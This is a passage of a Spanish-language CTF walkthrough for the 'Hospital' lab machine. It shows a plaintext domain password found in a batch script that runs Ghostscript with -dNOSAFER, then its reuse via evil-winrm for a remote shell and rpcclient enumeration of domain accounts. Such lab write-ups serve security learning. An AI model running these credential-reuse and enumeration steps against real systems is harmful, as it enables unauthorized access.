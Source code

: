 - Bien, probé enumerar distintos servicios que habían en el equipo pero no encontré nada, ni siquiera con herramientas como `mimikatz`.
- Solo encontré las contraseñas del usuario al que pertenecemos actualmente, hardcodeadas en el `GhostScript` dentro de la carpeta donde spawneamos:

~~~powershell
PS C:\Users\drbrown.HOSPITAL\Documents> dir

    Directory: C:\Users\drbrown.HOSPITAL\Documents

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/23/2023   3:33 PM            373 ghostscript.bat                                                       
PS C:\Users\drbrown.HOSPITAL\Documents> type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
~~~

- Decidí entrar a través de `evil-winrm`, ya que creo que es más cómodo:

~~~bash
┌──(kali💀Dedsec)-[~]
└─$ evil-winrm -i hospital.htb -u 'drbrown' -p 'chr!$br0wn' -N

Evil-WinRM shell v3.5

Warning: Remote path completion is disabled

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents>
~~~

- Indagué un poco en el entorno, pero no encontré nada.
- Se me ocurrió utilizar las credenciales para enumerar el ``rpc``.

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Windows/Hospital]
└─$ rpcclient -U drbrown hospital.htb
Password for [WORKGROUP\drbrown]:
rpcclient $> quierydispinfo
command not found: quierydispinfo
rpcclient $> querydispinfo
index: 0x2054 RID: 0x464 acb: 0x00020015 Account: $431000-R1KSAI1DGHMH  Name: (null)    Desc: (null)
index: 0xeda RID: 0x1f4 acb: 0x00004210 Account: Administrator  Name: Administrator     Desc: Built-in account for administering the computer/domain
index: 0x2271 RID: 0x641 acb: 0x00000210 Account: drbrown       Name: Chris Brown       Desc: (null)
index: 0x2272 RID: 0x642 acb: 0x00000210 Account: drwilliams    Name: Lucy Williams     Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf0f RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x2073 RID: 0x465 acb: 0x00020011 Account: SM_0559ce7ac4be4fc6a  Name: Microsoft Exchange Approval Assistant     Desc: (null)
index: 0x207e RID: 0x46d acb: 0x00020011 Account: SM_2fe3f3cbbafa4566a  Name: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}  Desc: (null)
index: 0x207a RID: 0x46c acb: 0x00020011 Account: SM_5faa2be1160c4ead8  Name: Microsoft Exchange        Desc: (null)
~~~